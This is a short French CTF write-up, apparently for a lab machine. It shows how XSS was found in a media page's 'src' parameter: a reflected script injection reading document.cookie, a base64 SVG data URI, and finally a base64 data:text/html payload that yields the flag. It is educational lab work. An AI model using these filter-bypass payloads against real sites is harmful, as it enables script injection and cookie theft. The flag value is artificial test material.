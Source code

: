 quand on clique sur l image nasa on trouve se lien http://192.168.56.101/?page=media&src=nsa

on peu donc suposer qu il charge les document depuis le serveur qui sont situer dans src (donc qui l execute)

en bref je tente ca http://192.168.56.101/?page=media&src=Montpellier%3Cscript%3Ealert(document.cookie);%3C/script%3E ca renvoie un truc super bizzare un sorry wrong answer et un 404 not found en meme temps

je pensse que je suis bloquer par une relecture de mon js par le serveur

j ai trouver ca j ai pas trops compris mais si ca permet de bypasse le truc qui lis mon js et qui le vire autemps tenter nhn/tui.editor#1717

ici : http://192.168.56.101/?page=media&src=data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyAKICAgIHhtbG5zOnhsaW5rPSdodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rJyB3aWR0aD0nMTAwJyBoZWlnaHQ9JzEwMCc+PGEgeGxpbms6aHJlZj0namF2YXNjcmlwdDphbGVydCgxKSc+PHJlY3QgeD0nMCcgeT0nMCcgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnIC8+PC9hPjwvc3ZnPg#x

ca me dit : le plugin nest pas supporter a la place du 404 error abithuelle

bref je suis sur la bonne vois je tente donc des recherch et je fait un ctrlf 'data:' sur https://owasp.org/www-community/attacks/xss/

je crois que j ai gagner

je tente dencode <script>alert('coucou')</script> en base 64 ca me donne : PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

BIM le flag : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D